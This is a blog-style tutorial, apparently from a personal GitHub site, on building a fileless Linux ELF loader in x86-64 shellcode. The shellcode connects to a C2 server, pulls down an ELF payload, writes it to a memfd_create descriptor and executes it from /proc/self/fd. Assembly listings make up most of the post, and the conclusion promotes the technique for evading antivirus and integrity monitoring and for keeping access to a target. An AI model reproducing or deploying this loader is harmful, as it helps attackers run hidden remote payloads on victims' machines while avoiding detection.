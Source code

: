 ```yaml
---
title: Remote in-memory ELF loader
categories: [Programming]
tags: [assembly, malware]
---
```


Fileless malware distribution is gaining popularity.
What is not surprisingly, because the work of such programs leaves almost no traces.
Moreover, since the very beginning hackers always searched for ways to stay anonymous and hide their malware on the system.
Thats why we focused on deep diving into this subject and came with the idea.
In Windows, there is **Reflective DLL Injection** which allows to execute malware right into the memory of the compromised process, but on Linux there is no such existing implementation.
So, then we thought, why not to use different ways of executing ELF files?

We found out that there is a technique of creating temporary filesystem using `/dev/shm`, but this actually does not provide us what we want.
Out goal is to execute ELF file right into the memory, not from the disk.
And then, after reading this [very interesting article](https://magisterquis.github.io/2018/03/31/in-memory-only-elf-execution.html) we decided to improve method described in it.
As we all know it is possible to create different file descriptor and write data to it.
This file descriptor will appear in `/proc/<pid/fd/<fd>` and then can be executed as a file.

Fortunately, `procfs` does not exist on disk and kernel creates it in the memory which is a good thing for us:

```
The /proc filesystem contains a illusionary filesystem.
It does not exist on a disk. Instead, the kernel creates it in memory.
```

*3.7. The /proc filesystem*

So, the concept of the whole process is:

**1.** Read ELF data from socket
**2.** Map it into the memory
**3.** Write to the created file descriptor
**4.** Execute it from `/proc/self/fd/<fd>`

## Shellcode

Let's begin writing our shellcode.

First step is to set up socket for further communication:

```nasm
.equ SYS_SOCKET     0x29
.equ AF_INET        0x2
.equ SOCK_STREAM    0x1

_sys_socket:
    push SYS_SOCKET
    pop rax
    cdq
    push AF_INET
    pop rdi
    push SOCK_STREAM
    pop rsi
    syscall
```

Now, we are ready to connect to our C2 server:

```nasm
_sys_connect:
    xchg rdi, rax
    movabs rcx, C2_ADDR
    push rcx
    mov rsi, rsp
    push 0x10
    pop rdx
    push 0x2a
    pop rax
    syscall
```

Lets imagine that we now read ELF file length and have it in the `r12` register.
Moreover, we have already allocated memory using `mmap` and have address pointing to it in `r15`.
Then, we have already read ELF data to the allocated memory and the next step is to create file descriptor.
For this purpose we are gonna use `memfd_create` system call:

```nasm
.equ SYS_MEMFD 0x13f
.equ FILE_SIZE 0x8

_sys_memfd:
    xor rax, rax
    push rax
    push rsp
    sub rsp, FILE_SIZE
    mov rdi, rsp
    push SYS_MEMFD
    pop rax
    xor rsi, rsi
    syscall
```

Then we save our file descriptor to `r14` via `push rax; pop r14` and then we need to write our ELF data from the allocated memory right to the file descriptor.
After all these steps done, we need to concatenate `/proc/self/fd/` and our file descriptor. There are different ways to do this, but in our case we'll use stack:

```nasm
add rsp, 16
mov qword ptr [rsp], 0x6f72702f
mov qword ptr [rsp+4], 0x65732f63
mov qword ptr [rsp+8], 0x662f666c
mov qword ptr [rsp+12], 0x002f64
```

Then we need to convert our file descriptor to the string and append it to the stack above. We'll pass this step.

Now, we are ready to execute our file descriptor using `execve`:

```nasm
.equ SYS_EXECVE 0x3b

_sys_execve:
    lea rdi, [rsp]
    push SYS_EXECVE
    pop rax
    cdq
    push rdx
    push rdi
    mov rsi, rsp
    syscall
```

First instruction puts path `/proc/self/fd/<fd>` to the first argument of `execve`.

As the result, we'll get our ELF file executed. And we didn't even touch the disk!

## Conclusion

Fileless loading of ELF files in Linux is a useful technique when doing
penetration testing. This is a fairly quiet way to
resist a wide range of anti-virus protection, control systems
integrity and monitoring systems that monitor content changes
hard drive. In this way, access to the target can be easily maintained.
system, leaving a minimum of traces.
